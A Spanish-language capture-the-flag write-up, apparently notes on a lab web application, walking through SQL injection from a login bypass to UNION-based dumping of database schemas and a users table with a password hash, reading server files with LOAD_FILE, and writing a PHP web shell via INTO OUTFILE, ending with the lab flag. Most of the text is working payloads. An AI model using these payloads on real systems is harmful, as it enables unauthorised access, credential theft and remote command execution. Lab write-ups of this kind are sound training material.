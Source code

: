 ![[Pasted image 20250118142139.png]]

Se nos da esta pagina, con un formulario de login, tras probar a hacer una inyeccion en los parametros, con:

* **User:** `admin' or '1' = '1'--`
	* **Password:** `' or '1' = '1'--`

podemos lograr acceder a la siguiente pagina
![[Pasted image 20250118142434.png]]
podemos ver que se muestra la información de 4 columnas, vamos a ver que información podemos sacar a raíz de esto:
1. **' ORDER BY--**
	 Si hacemos un `' ORDER BY 6--` podemos observar que no existe la columna 6
	 ![[Pasted image 20250118143023.png]]
	Pero si lo hacemos `' ORDER BY 5--` nos muestra la tabla, por lo que podemos determinar que la tabla mostrada tiene 5 parámetros, a partir de aqui podemos ver cuales son los que se están mostrando, y a raíz de esto poder realizar **UNION INJECTIONS** para recabar mas información.
	Ejecutando: `' UNION SELECT 1, 2, 3, 4,5 --`  podemos ver que las columnas que se muestran, son la 2,3,4 y 5
	![[Pasted image 20250118145951.png]]
	
	a raíz de esto vamos a sacar mas información de la DBSM
	 `'  UNION SELECT 1, schema_name, 3, 4,5 from information_schema.schemata--` 
	 ![[Pasted image 20250118150438.png]]
	 Podemos observar las siguientes bases de datos, vamos a ver en cual estamos trabajando actualmente con: 
	 `' UNION SELECT 1, DATABASE(), 3, 4,5-- -` 
	![[Pasted image 20250118150706.png]]
	podemos ver que estamos  trabajando en ilfreight, vamos a obtener las tablas de ilfreight con
	`' UNION SELECT 1, TABLE_NAME, TABLE_SCHEMA, 4, 5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='ilfreight'-- -`
	![[Pasted image 20250118151010.png]]
	vemos que tiene dos tablas payment y users vamos a usar
	`' UNION SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA, 5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -` para ver el contenido de estas
	![[Pasted image 20250118151207.png]]
	vamos a listar el contenido de username y password a ver q nos puede interesar
	' UNION SELECT 1, username, password, 4, 5 FROM ilfreight.users-- -
	![[Pasted image 20250118151348.png]]
	podemos observar a adam y el hash de su contraseña
	
2. **SUBIR WEB SHELL**
	Comenzamos identificando que usuario somos y q privilegios tenemos con:
	`' UNION SELECT 1, user, 3, 4,5 FROM mysql.user-- -```
	![[Pasted image 20250118151622.png]]
	
	`' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user WHERE user="root"-- -`
	![[Pasted image 20250118151723.png]]
	se nos muestra que somos usuario root y tenemos superprivilegios. Sabiendo esto vamos a tratar de leer el codigo de dashboard.php mediante
	`' UNION SELECT 1, LOAD_FILE('/var/www/html/dashboard/dashboard.php'), 3, 4, 5-- -`
	y podemos observar el siguiente codigo
	``` php
<?php
session_start();

if ($_SESSION['login'] !== 1) {
    header("Location: index.php");
    die();
}

include "../config.php";

if (isset($_POST['search'])) {
    $q = "SELECT * FROM payment WHERE month LIKE '%" . mysqli_real_escape_string($conn, $_POST['search']) . "%'";

    $result = mysqli_query($conn, $q);

    if (!$result) {
        die(mysqli_error($conn));
    }

    while ($row = mysqli_fetch_array($result, MYSQLI_BOTH)) {
        echo "<tr>";
        
    }
}
```

	vemos que hace include a un archivo config.php, vamos a cargarlo a ver que podemos encontrar, tras ejecutar `' UNION SELECT 1, LOAD_FILE('/var/www/html/dashboard/config.php'), 3, 4, 5-- -` observamos q el archivo esta vacio. 
	viendo q $conn no esta definido vamos a definirlo
	```sql
' UNION SELECT "", '<?php system($_REQUEST[0]); ?>', "", "","" INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -
```

	Una vez accedemos a la shell y ejecutamos un 
	`http://94.237.63.163:30598/dashboard/shell.php?0=ls%20/`
	![[Pasted image 20250118160031.png]]
	vemos la flag y le hacemos un cat y obtenemos la flag
	
	528d6d9cedc2c7aab146ef226e918396 